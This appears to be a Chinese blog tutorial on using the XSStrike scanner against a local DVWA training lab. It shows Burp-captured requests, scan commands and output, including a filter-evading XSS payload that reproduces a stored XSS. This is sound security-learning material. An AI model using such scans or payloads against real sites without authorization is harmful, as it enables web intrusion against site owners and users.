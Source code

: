 ```yaml
---
layout:     post
title:      XSStrike
subtitle:   XSS 检测工具 XSStrike
date:       2020-01-11
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XSS
---
```


### 简介

`XSStrike`据说是一款比较好用的检查XSS漏洞的工具，能够`bypass WAF`,
检查 `DOM XSS`，当然 `Reflected XSS` 和 `Stored XSS` 也可以检测。

Github仓库以及使用方法:
[XSStrike](https://github.com/s0md3v/XSStrike)
[XSStrike使用方法](https://github.com/s0md3v/XSStrike/wiki/Usage)

### 使用

XSStrike可以使用 `GET` 方法，也可以使用 `POST` 方法，使用什么方法要看被检测的网站使用什么方法。
下面是以检测DVWA为例子
 
##### GET 方法

**DVWA XSS(Reflected)**

Burp截获的数据如下：
```
GET /dvwa/vulnerabilities/xss_r/?name=nihoao HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.10/dvwa/vulnerabilities/xss_r/
Connection: close
Cookie: security=low; PHPSESSID=g9qm98qk1fi31golgpth3c3qqq
Upgrade-Insecure-Requests: 1
```
从截获的信息来看使用的 GET 参数只有一个 `name`
那么该如何使用 XSStrike 来帮忙自动检测呢？
如下：

终端输入
* -u 后面跟URL

```
python3 xsstrike.py -u "http://192.168.1.10/dvwa/vulnerabilities/xss_r/?name=nihoao"
```
结果显示如下信息
```
	XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: name 
[-] No reflection found 
```
我们可以得到的信息：
1. WAF Status: Offline 是没有的或者是有也关闭了
2. Testing parameter: name 参数只有一个name可以看到 XSStrike可以自动检测参数，
其实XSStrike还就是对这个输入参数进行赋值来进行检查的。只是这里没有显示出来。
3. No reflection found 表示 XSStrike没检测到XSS漏洞.

##### POST 方法

**DVWA XSS(Stored)**

那么下面我们看一下 XSStrike 给参数赋值并且打印出来的例子：

Burp 截获的信息如下：

```
POST /dvwa/vulnerabilities/xss_s/ HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.10/dvwa/vulnerabilities/xss_s/
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Connection: close
Cookie: security=low; PHPSESSID=dn57dj6nlghiu64oa6ko4pjfj0
Upgrade-Insecure-Requests: 1

txtName=jack&mtxMessage=where+is+rose&btnSign=Sign+Guestbook
```
从上面信息可以看到使用 `POST` 方法.

那么这次XSStrike 该如使用呢？
如下：
```
root@kali:~/XSStrike# python3 xsstrike.py -u "http://192.168.1.10/dvwa/vulnerabilities/xss_s/"  --header "Cookie: security=low; PHPSESSID=dn57dj6nlghiu64oa6ko4pjfj0" --data "txtName=jack&mtxMessage=where+is+rose&btnSign=Sign+Guestbook"
```
这里相对于上面的 GET 方法增加了一些信息：
* --header 头部信息 `"Cookie: security=low; PHPSESSID=dn57dj6nlghiu64oa6ko4pjfj0"`
(其实整个头部信息都可以放进去，我只是不想放那么多，less is better)
* --data POST方法的body信息 `"txtName=jack&mtxMessage=where+is+rose&btnSign=Sign+Guestbook"`

检测过程输出信息如下：

```
	XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: txtName 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
 ~] Progress: 3072/3072
[!] Testing parameter: mtxMessage 
[!] Reflections found: 1538 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 2238432 
------------------------------------------------------------
[+] Payload: <detAIls%09ONpoinTEREnter%09=%09[8].find(confirm)// 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] n
```
我们可以看到`输入`参数有`两个`,其实burp给出的信息data里面参数有3个但是，
第3个参数不是输入参数，因为大部分漏洞都是输入输出产生。这里的第3个参数`btnSign`就没什么用了.

这里产生了第一条 Payload 
(其实XSStrike已经插入了很多条记录到数据库，但是不知道为什么它才跳出来第一条payload)
```
<detAIls%09ONpoinTEREnter%09=%09[8].find(confirm)//
```
然后 XSStrike 询问我们是否还要继续进行扫描，但是，
我这里就不再进行扫描了,所以选择了 n 

我们只要对参数 mtxMessage 赋值:
```
<detAIls%09ONpoinTEREnter%09=%09[8].find(confirm)//
```
就可以复现漏洞了。





